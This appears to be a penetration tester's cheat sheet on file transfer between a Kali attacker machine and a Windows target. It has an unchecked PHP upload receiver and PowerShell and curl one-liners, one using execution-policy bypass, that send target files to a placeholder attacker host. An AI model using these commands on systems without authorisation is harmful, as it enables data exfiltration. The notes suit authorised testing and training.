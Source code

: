 # File transfer

## Download

source: https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

```
python -m http.server 8080

mv somefile /var/www/html
systemctl start apache2
```

## Upload

sources: 
- https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9
- https://davidhamann.de/2019/04/12/powershell-invoke-webrequest-by-example/
- https://stackoverflow.com/questions/22491129/how-to-send-multipart-form-data-with-powershell-invoke-restmethod

### Php on Kali

```
vim upload.php

<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
  move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>

mv upload.php /var/www/html

mkdir /var/www/html/uploads
chown www-data.www-data /var/www/html/uploads
chmod766 /var/www/html/uploads

systemctl start apache2
```

### On Windows

```
powershell -nop -exec bypass Invoke-RestMethod -Uri http://IpAtt/upload.php -Method Post -Infile 'c:\path\to\file.txt'
```
or
```
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\path\to\file.txt" -X Post -v http://IpAtt/upload.php
```
or
```
$fieldName = 'targetfile' # name of the field in upload.php
$filePath = 'C:\full\path\to\file.txt' # full path...
$url = 'http://AttackerIpAddress/upload.php'

Add-Type -AssemblyName 'System.Net.Http'

$client = New-Object System.Net.Http.HttpClient
$content = New-Object System.Net.Http.MultipartFormDataContent
$fileStream = [System.IO.File]::OpenRead($filePath)
$fileName = [System.IO.Path]::GetFileName($filePath)
$fileContent = New-Object System.Net.Http.StreamContent($fileStream)
$content.Add($fileContent, $fieldName, $fileName)
$result = $client.PostAsync($url, $content).Result
```

### Http on Kali

```
vim upload.html

<html>
  <head></head>
  <body>
    <form action="http://IpAtt/upload.php" method="POST" enctype="multipart/form-data">
      <br><br>
      Choose a file: <br>
      <input type="file" name="targetfile"><br>
      <input type="sumbit" name="submit" value="upload">
    </form>
  </body>
</html>
```
To upload on a browser


